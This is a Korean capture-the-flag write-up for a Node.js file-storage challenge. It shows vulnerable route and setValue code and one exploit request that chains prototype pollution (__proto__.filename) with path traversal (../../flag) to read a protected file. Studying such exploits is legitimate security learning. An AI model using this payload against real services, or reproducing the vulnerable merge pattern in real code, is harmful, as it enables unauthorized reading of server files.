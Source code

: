 <h1>1. 웹페이지 접속</h1>

![image](./image/filestorage1.png)

파일이름과 파일내용을 입력할 수 있는 공간과 send 버튼이 있다. 임의의 내용을 입력해서 send 해보면

 

다음과 같이 출력된다.

![image](./image/filestorage2.png)

 

파일 이름으로 abc 를 입력하였는데 파일 이름은 sha256 방식으로 암호화되어 출력된다. 

 

 

<h1>2. 소스코드 분석</h1>
이 웹사이트는 Node.js 로 작성되었으며 파일 이름이 출력되던 mkfile 엔드포인트 이외에도 /readfile, /test 엔드포인트도 존재한다. 

 

<h2>취약한 소스코드</h2>

```
app.get('/test',function(req,resp){
	let {func,filename,rename}=req.query;
	if(func==null){
		resp.send("this page hasn't been made yet"); 
	}else if(func=='rename'){
		setValue(file,filename,rename)
		resp.send('rename');
	}else if(func=='reset'){
		read={};
		resp.send("file reset");
	}
 
```

/test 에서 사용하는 setValue 함수에서 취약점이 발견되었다.

 

 

<h2>setValue 함수</h2>

```
function setValue(obj, key, value) {
  const keylist = key.split('.'); 
  const e = keylist.shift(); 
  if (keylist.length > 0) {
    if (!isObject(obj[e])) obj[e] = {}; 
    setValue(obj[e], keylist.join('.'), value);
  } else {
    obj[key] = value;
    return obj;
  }
}
```

 

이 함수는 대표적인 프로토타입 오염에 취약한 함수이다.

참고자료 - https://ajy1120.tistory.com/46


 

프로토타입 오염은 Node.js 에서 발생하는 취약점으로 프로토타입 기반 언어인 자바스크립트에서 발생하는 취약점이다.

 

<br>

<h1>3. 익스플로잇</h1>
<br>
/test의 setValue 함수를 호출하기 위해 다음의 URL 을 파라미터 값으로 전달하였다.
<br>

 

```
/test?func=rename&file=read&filename=__proto__.filename&rename=../../flag
```
그러면 setValue(read, ____proto____.filename, ../../flag) 함수가 호출된다. 이 함수가 실행되면 read 객체의 프로토타입

 

의 filename 속성값을 임의의 값으로 지정할 수 있다. 그리고 func=reset 값을 전달하여 read 객체를 다시 초기화하면

 

read 객체의 filename 값이 임의의 값으로 오염되게 된다다.

 

filename 속성값을 오염시킨 이유는 다음의 코드를 이용하기 위해서이다.

```
app.get('/readfile',function(req,resp){ 
	let filename=file[req.query.filename];
	if(filename==null){
		fs.readFile(__dirname+'/storage/'+read['filename'],'UTF-8',function(err,data){
			resp.send(data); // response.send
		})
	}else{
		read[filename]=filename.replaceAll('.',''); 
		fs.readFile(__dirname+'/storage/'+read[filename],'UTF-8',function(err,data){
			if(err==null){
				resp.send(data);
			}else{
				resp.send('file is not existed');
			}
		})
	}

})
```

위의 코드를 보면 filename 변수에 GET 방식으로 받은 값을 저장하고 filename 값이 null 값이면 read 객체의 filename

 

속성값을 그대로 사용하여 파일을 불러오는데, setValue 함수를 실행하여 filename 속성값을 오염시켰기 때문에

 

/readfile 에 접근할 때 아무런 값도 전달하지 않는다면 read['filename'] 값을 그대로 가져오게되어 

 

/storage/../../flag 경로에 접근하여 파일을 불러오게 된다. 


![image](./image/filestorage3_1.png)
